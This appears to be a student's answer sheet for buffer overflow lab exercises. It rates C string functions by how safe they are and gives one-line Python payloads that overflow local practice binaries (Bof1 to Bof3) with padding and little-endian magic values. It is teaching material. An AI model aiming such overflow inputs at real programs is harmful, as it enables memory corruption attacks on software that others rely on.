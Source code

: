 # Presentation + Variation 1
## Exercise 3a
```
strcat() --- Not safe, vulnerable to overflow attacks.
gets() -- Very dangerous, please never use.
strncat() --- Better version of strcat()
fgets() --- The safe version of gets()
sprintf() --- Does not check buffer boundaries. Overflows are possible.
puts() --- Looks like gets(), but not particularly dangerous. Automatically appends newline.
printf() --- Can be dangerous, be aware of format string vulnerabilities when used.
fputs() --- The newer version of puts(). No new line.
```

## Exercise 3b
`python -c 'print 30*"A"' |./Bof1`

# Endianness, Variation 2
## Exercise 3c
`python -c 'print 10*"A" + "\xbe\xba\xfe\xca"' |./Bof2`

## Exercise 3d
`python -c 'print 24*"A" +  "\xef\xbe\xad\xde"' | ./Bof3`

# Instruction pointer, Pro
## Exercise 3e
https://0xrick.github.io/binary-exploitation/bof4/

